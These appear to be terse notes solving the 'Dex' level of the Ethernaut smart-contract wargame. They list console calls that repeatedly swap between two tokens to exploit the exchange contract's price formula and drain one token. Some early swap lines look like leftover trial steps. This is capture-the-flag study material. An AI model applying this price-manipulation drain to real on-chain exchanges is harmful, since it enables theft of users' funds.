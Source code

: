 [22 - Dex](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

Token1: 0x42259ce074f426E5FBac1bbE270707cBeada3Fa8
Token2: 0x0dcfF8e59a9cD5f4d90EF977a454C0f1F61c082E

* await contract.approve(contract.address, 10000000);
* await contract.swap("0x42259ce074f426E5FBac1bbE270707cBeada3Fa8", "0x0dcfF8e59a9cD5f4d90EF977a454C0f1F61c082E", 10);
* await contract.swap("0x0dcfF8e59a9cD5f4d90EF977a454C0f1F61c082E", "0x42259ce074f426E5FBac1bbE270707cBeada3Fa8", 10);
* await contract.swap("0x0dcfF8e59a9cD5f4d90EF977a454C0f1F61c082E", "0x42259ce074f426E5FBac1bbE270707cBeada3Fa8", 10);
* const token1 = await contract.token1(); const token2 = await contract.token2();
* await contract.swap(token1, token2, 21);
* await contract.swap(token2, token1, 25);
* await contract.swap(token1, token2, 32);
* await contract.swap(token2, token1, 45);
* await contract.swap(token1, token2, 76);
* contract has 34 token1, 110 token2, player has 76 token1, 0 token2
* await contract.swap(token1, token2, 34);
* now contract will have 0 token1, and will report a bad price



